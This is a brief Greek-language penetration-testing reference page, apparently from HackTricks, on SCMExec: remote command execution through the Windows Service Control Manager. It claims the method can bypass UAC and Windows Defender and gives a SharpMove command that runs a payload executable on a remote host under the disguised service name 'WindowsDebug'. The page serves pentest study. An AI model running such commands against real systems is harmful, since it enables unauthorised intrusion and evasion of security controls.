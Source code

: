 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## SCM

**SCMExec** είναι μια τεχνική για την εκτέλεση εντολών σε απομακρυσμένα συστήματα χρησιμοποιώντας τον Διαχειριστή Ελέγχου Υπηρεσιών (SCM) για να δημιουργήσει μια υπηρεσία που εκτελεί την εντολή. Αυτή η μέθοδος μπορεί να παρακάμψει ορισμένους ελέγχους ασφαλείας, όπως τον Έλεγχο Λογαριασμού Χρήστη (UAC) και τον Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

{{#include ../../banners/hacktricks-training.md}}
